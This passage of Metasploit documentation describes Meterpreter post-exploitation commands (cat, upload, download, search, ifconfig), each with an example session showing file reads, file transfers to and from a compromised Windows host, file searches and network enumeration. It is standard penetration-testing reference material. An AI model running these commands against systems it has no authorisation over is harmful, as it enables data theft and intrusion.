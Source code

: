 **cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat C:\\file.txt
Hello world!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/something.txt C:\\Users\\user\\Desktop\\something.txt
[*] uploading  : /tmp/something.txt -> C:\Users\user\Desktop\something.txt
[*] uploaded   : /tmp/something.txt -> C:\Users\user\Desktop\something.txt
meterpreter >
```

The ```-r``` option for the command also allows you to upload recursively.

**download command**

The ```download``` command allows you download a file from the remote target to your machine.
For example:

```
meterpreter > download C:\\Users\\user\\Desktop\\something.txt /tmp/
[*] downloading: C:\Users\user\Desktop\something.txt -> /tmp//something.txt
[*] download   : C:\Users\user\Desktop\something.txt -> /tmp//something.txt
meterpreter >
```

The ```-r``` option for the command also allows you to download recursively.

**search command**

The ```search``` command allows you to find files on the remote file system. For example, this
demonstrates how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 1 result...
    .\something.txt (5 bytes)
```

Note that without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the commands allows you to search recursively.

**ifconfig command**

The ```ifconfig``` command displays the network interfaces on the remote machine:

```
meterpreter > ifconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
...
```
